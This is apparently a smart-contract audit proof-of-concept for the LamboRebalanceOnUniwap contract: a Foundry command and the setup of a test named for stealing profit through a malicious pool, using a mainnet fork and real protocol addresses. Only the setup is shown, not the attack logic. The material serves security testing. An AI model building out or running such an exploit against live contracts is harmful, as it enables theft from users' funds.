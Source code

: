 ```bash
forge test --mt "test_steal_profit_with_malicious_pool_2" -vvvv
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {LamboRebalanceOnUniwap} from "../src/rebalance/LamboRebalanceOnUniwap.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {VirtualToken} from "../src/VirtualToken.sol";
import {IDexRouter} from "../src/interfaces/OKX/IDexRouter.sol";
import {LaunchPadUtils} from "../src/Utils/LaunchPadUtils.sol";
import {IWETH} from "../src/interfaces/IWETH.sol";

import {ILiquidityManager} from "../src/interfaces/Uniswap/ILiquidityManager.sol";
import {INonfungiblePositionManager} from "../src/interfaces/Uniswap/INonfungiblePositionManager.sol";
import {IPoolInitializer} from "../src/interfaces/Uniswap/IPoolInitializer.sol";
import {IUniswapV3Pool} from "../src/interfaces/Uniswap/IUniswapV3Pool.sol";
import {console} from "forge-std/console.sol";

interface IUniswapV3Factory {
    function getPool(
        address tokenA,
        address tokenB,
        uint24 fee
    ) external view returns (address pool);
}


contract RebalanceTest is Test {
    LamboRebalanceOnUniwap public lamboRebalance;
    uint256 private constant _ONE_FOR_ZERO_MASK = 1 << 255; // Mask for identifying if the swap is one-for-zero

    address public multiSign = 0x9E1823aCf0D1F2706F35Ea9bc1566719B4DE54B8;
    address public WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address public OKXTokenApprove = 0x40aA958dd87FC8305b97f2BA922CDdCa374bcD7f;
    address public OKXRouter = 0x7D0CcAa3Fac1e5A943c5168b6CEd828691b46B36;

    address public VETH;
    address public uniswapPool;
    address public NonfungiblePositionManager = 0xC36442b4a4522E871399CD717aBDD847Ab11FE88;
    address public uniswapV3Factory = 0x1F98431c8aD98523631AE4a59f267346ea31F984;
    
    function setUp() public {
        vm.createSelectFork("https://rpc.ankr.com/eth");
        lamboRebalance = new LamboRebalanceOnUniwap();

        uint24 fee = 3000;

        vm.startPrank(multiSign);
        VETH = address(new VirtualToken("vETH", "vETH", LaunchPadUtils.NATIVE_TOKEN));
        VirtualToken(VETH).addToWhiteList(address(lamboRebalance));
        VirtualToken(VETH).addToWhiteList(address(this));
        vm.stopPrank();

        // prepare uniswapV3 pool(VETH <-> WETH)
        _createUniswapPool();

        lamboRebalance.initialize(address(this), address(VETH), address(uniswapPool), fee);
    }

```